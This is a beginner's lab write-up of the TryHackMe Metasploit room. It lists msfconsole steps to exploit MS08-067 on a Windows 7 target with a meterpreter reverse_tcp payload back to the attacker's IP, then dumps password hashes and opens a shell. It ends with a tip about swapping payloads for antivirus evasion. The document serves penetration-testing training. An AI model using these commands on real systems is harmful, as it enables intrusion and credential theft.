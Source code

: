 Metasploit Room - Try Hack Me 

Room : Metasploit - Try Hack Me

https://tryhackme.com/room/metasploitintro

Summary : In Metasploit, we use exploits provided by the platform to target vulnerable systems. After choosing an exploit, we set the target's IP address (RHOST) and port (RPORT) to start the attack. If it's successful, Metasploit creates a session between your system and the target, allowing remote access.

Once inside, you can run various commands to explore the system, gather information, and even escalate your privileges to gain more control. Metasploit also provides post-exploitation tools to maintain access, collect credentials, or pivot deeper into the network. It's a powerful framework that makes penetration testing more efficient and effective.

Tools :
-Metasploit Framework (Kali Linux or Parrot OS)

-Target Machine: Windows 7 (vulnerable)

Step:
1.Start Metasploit  --->   msfconsole
2.Search for an Exploit  --->  search ms08_067
3.Use the Exploit   --->   use exploit/windows/smb/ms08_067_netapi
4.Set Required Options   --->  set RHOST <Target_IP>
                                set RPORT 445
5.Set the Payload  --->  set PAYLOAD windows/meterpreter/reverse_tcp
                          set LHOST <Your_Attacking_IP>
                          set LPORT 4444
6.Exploit the Target  --->  exploit
7.Post-Exploitation   --->   getuid – shows current user
                            sysinfo – shows system info
                            hashdump – dump password hashes
                            shell – open a command shell
                            run post/windows/gather/enum_logged_on_users – list logged-in users
8.Cleanup   --->  exit / sessions -K

Result :
After you well donr its the result of your work :
                                                 Started reverse TCP handler on <Your_IP>:4444
                                                 Sending stage (175174 bytes) to <Target_IP>
                                                 Meterpreter session 1 opened

Concolution :
Now you know how to use Metasploit to identify and exploit a vulnerability in a Windows 7 machine. This room gives a practical introduction to working with exploits, payloads, and sessions!!
This is my tips:
              Always run show options after loading an exploit to check what needs to be set.
              Use search <keyword> to find relevant modules fast.
              Try different payloads like windows/x64/meterpreter/reverse_https for AV evasion.
              Take notes of each step—you’ll thank yourself later.
